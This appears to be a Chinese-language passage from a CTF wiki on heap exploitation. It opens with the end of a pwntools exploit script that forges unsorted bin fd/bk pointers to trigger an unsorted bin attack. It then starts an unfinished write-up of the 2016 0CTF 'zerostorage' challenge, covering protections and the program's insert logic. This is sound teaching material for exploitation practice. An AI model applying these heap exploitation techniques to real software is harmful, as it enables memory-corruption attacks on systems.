 ```Python
bk = magic - 0x10

edit_heap(0, 0x20 + 0x20, "a" * 0x20 + p64(0) + p64(0x91) + p64(fd) + p64(bk))
create_heap(0x80, "dada")  #trigger unsorted bin attack
r.recvuntil(":")
r.sendline("4869")
r.interactive()

```

## 2016 0CTF zerostorage-待完成

**注：待进一步完成。**

这里我们以 2016 年 0CTF 的 [zerostorage](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unsorted_bin_attack/zerostorage) 为例，进行介绍。

**这个题当时给了服务器的系统版本和内核版本，所以自己可以下一个一模一样的进行调试，这里我们就直接用自己的本地机器调试了。但是在目前的Ubuntu 16.04 中，由于进一步的随机化，导致 libc 加载的位置与程序模块加载的位置之间的相对偏移不再固定，所以 BrieflyX 的策略就无法再次使用，似乎只能用 angelboy 的策略了。**

### 安全性检查

可以看出，该程序开启了所有的保护

```shell
pwndbg> checksec
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unsorted_bin_attack/zerostorage/zerostorage'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

### 基本功能分析

程序管理在 bss 段的存储空间 storage ，具有插入，删除，合并，删除，查看，枚举，退出功能。这个storage的结构体如下

```text
00000000 Storage         struc ; (sizeof=0x18, mappedto_7)
00000000                                         ; XREF: .bss:storage_list/r
00000000 use             dq ?
00000008 size            dq ?
00000010 xor_addr        dq ?
00000018 Storage         ends
```

#### insert-1

基本功能如下

1.  逐一查看 storage 数组，查找第一个未使用的元素，但是这个数组最大也就是32。
2.  读取storage 元素所需要存储内容的长度。
    -   如果长度不大于0，直接退出；
    -   否则如果申请的字节数小于128，那就设置为128；
    -   否则，如果申请的字节数不大于4096，那就设置为对应的数值；
    -   否则，设置为4096。
3.  使用 calloc 分配指定长度，注意 calloc 会初始化 chunk 为0。
4.  将 calloc 分配的内存地址与 bss 段的一个内存（初始时刻为一个随机数）进行抑或，得到一个新的内存地址。
5.  根据读取的storage的大小来读入内容。
6.  将对应的storage的大小以及存储内容的地址保存到对应的storage 元素中，并标记该元素处于可用状态。**但是，需要注意的是，这里记录的storage的大小是自己输入的大小！！！**
7.  递增 storage num的数量。
